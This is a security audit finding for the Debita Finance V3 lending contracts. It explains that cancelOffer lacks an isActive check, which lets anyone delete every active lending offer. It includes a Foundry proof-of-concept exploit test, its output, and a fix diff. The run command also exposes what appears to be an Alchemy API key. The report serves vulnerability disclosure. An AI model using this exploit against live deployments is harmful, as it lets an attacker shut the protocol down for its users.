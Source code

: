 Fluffy Glossy Alpaca

High

# Anyone can delete all active lending offers without authorization

### Summary

When canceling a lending offer via [`DebutaLendOffer-Implementation::cancelOffer`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L144), the `availableAmount` and the status of the offer `isActive` are correctly set to `0` and `false`, respectively. Then, the offer is well [removed](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L157) from the list of active lend orders. However, due to the missing check of the lending offer's activity, an attacker can add funds, i.e. 1 wei to his already removed offer and cancel this offer again. He can repeat these steps to delete all active lending offers.

### Root Cause

The [`cancelOffer`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L144) function only verifies if a lending offer has non-zero available amount. It does not check if the offer is still active.
```javascript


function cancelOffer() public onlyOwner nonReentrant {
   uint availableAmount = lendInformation.availableAmount;
   lendInformation.perpetual = false;
   lendInformation.availableAmount = 0;
>> require(availableAmount > 0, "No funds to cancel");
   isActive = false; // @audit no check if the offer is still active


   SafeERC20.safeTransfer(
       IERC20(lendInformation.principle),
       msg.sender,
       availableAmount
   );
   IDLOFactory(factoryContract).emitDelete(address(this));
   IDLOFactory(factoryContract).deleteOrder(address(this));
   // emit canceled event on factory
}
```

The available amount requirement can be bypassed easily by [adding funds](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L162) to the same lending offer. As a result, a malicious user can call `cancelOffer` multiple times, hence, he's able to call `IDLOFactory(factoryContract).deleteOrder` multiple times on a deleted lending offer. As depicted in [`DebitaLendOfferFactory::deleteOrder`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L208-L217), removing an already deleted lend order will result in removing the first element of the `allActiveLendOrders` array. As a consequence, by keeping doing it, all active lending orders will be deleted.


```javascript


function deleteOrder(address _lendOrder) external onlyLendOrder {
   uint index = LendOrderIndex[_lendOrder]; // @audit if _lendOrder is already removed, index will be 0
   LendOrderIndex[_lendOrder] = 0;


   // switch index of the last borrow order to the deleted borrow order
   allActiveLendOrders[index] = allActiveLendOrders[activeOrdersCount - 1]; // @audit the first element is at a result removed from the allActiveLendOrders array
   LendOrderIndex[allActiveLendOrders[activeOrdersCount - 1]] = index;


   // take out last borrow order


   allActiveLendOrders[activeOrdersCount - 1] = address(0);


   activeOrdersCount--;
}
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

- A attacker creates a legitimate lending offer
- He cancels his offer then funds 1 wei to this offer
- Repeat step 2 until all the active lending offers are deleted

### Impact

Anyone can delete all active lending offers without authorization, hence, stop the whole protocol from functioning as there will be no lending offers to match with the borrowing ones.

### PoC


- This test case can be added to the file `MixMultiplePrinciples.t.sol`:


```javascript


function testMaliciousAttackerCanRemoveAllActiveLendOffersWithoutAuthorization() public {
   address attacker = makeAddr("attacker");
   deal(wETH, attacker, 1000e18, false);
   bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(2);
   uint256[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
   uint256[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);
   bool[] memory oraclesActivatedLenders = allDynamicData.getDynamicBoolArray(1);
   address[] memory acceptedPrinciples = allDynamicData.getDynamicAddressArray(2);
   address[] memory acceptedCollaterals = allDynamicData.getDynamicAddressArray(1);
   address[] memory oraclesCollateral = allDynamicData.getDynamicAddressArray(1);


   acceptedPrinciples[0] = AERO;
   acceptedCollaterals[0] = USDC;
   oraclesActivated[0] = true;


   // Get the current number of lend orders
   uint256 nbOfLendOrderBefore = DLOFactoryContract.getActiveOrders(0, type(uint256).max).length;
   // The current number of lend orders is 3
   // They are effectively created in the setUp function
   assertEq(nbOfLendOrderBefore, 3);


   // The attacker creates a legitimate lending offer
   vm.startPrank(attacker);
   wETHContract.approve(address(DLOFactoryContract), 5e18);
   ratioLenders[0] = 4e17;
   ltvsLenders[0] = 6900;


   address attackerOrderAddress = DLOFactoryContract.createLendOrder(
       false,
       oraclesActivatedLenders,
       false,
       ltvsLenders,
       1000,
       9640000,
       86400,
       acceptedCollaterals,
       wETH,
       oraclesCollateral,
       ratioLenders,
       DebitaChainlinkOracle,
       5e18
   );
   uint256 nbOfLendOrderAfter = DLOFactoryContract.getActiveOrders(0, type(uint256).max).length;
   // The number of lend order is now 4
   assertEq(nbOfLendOrderAfter, 4);
   // Now, the attacker can just keeps:
   // canceling his own order & adding 1 wei to his order address just after
   // until all lending orders are removed even ones created from other users
   for (uint256 i = 0; i < nbOfLendOrderAfter; i++) {
       DLOImplementation(attackerOrderAddress).cancelOffer();
       wETHContract.approve(address(attackerOrderAddress), 1);
       DLOImplementation(attackerOrderAddress).addFunds(1);
   }


   vm.stopPrank();
   // He's succeeded to remove all lending orders without authorization
   assertEq(DLOFactoryContract.activeOrdersCount(), 0);
}


```


- Run it with the following command `forge test --fork-url https://base-mainnet.g.alchemy.com/v2/Qcwhw6owCORIS6Pr1r5AtWg7voPLcIWE --mt testMaliciousAttackerCanRemoveAllActiveLendOffersWithoutAuthorization  --fork-block-number 22675104`, which should return:


```text


Ran 1 test for test/fork/Loan/mix/MixMultiplePrinciples.t.sol:testMultiplePrinciples
[PASS] testMaliciousAttackerCanRemoveAllActiveLendOffersWithoutAuthorization() (gas: 1398356)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 14.45ms (3.32ms CPU time)


Ran 1 test suite in 347.72ms (14.45ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)


```

### Mitigation

It's mandatory to check if a lending offer is still active when canceling it.
This diff can be applied to the function `DebutaLendOffer-Implementation::cancelOffer`:


```diff


function cancelOffer() public onlyOwner nonReentrant {
   uint availableAmount = lendInformation.availableAmount;
   lendInformation.perpetual = false;
   lendInformation.availableAmount = 0;
   require(availableAmount > 0, "No funds to cancel");
+  require(isActive, "Offer is not active");
   isActive = false;


   SafeERC20.safeTransfer(
       IERC20(lendInformation.principle),
       msg.sender,
       availableAmount
   );
   IDLOFactory(factoryContract).emitDelete(address(this));
   IDLOFactory(factoryContract).deleteOrder(address(this));
   // emit canceled event on factory
}


```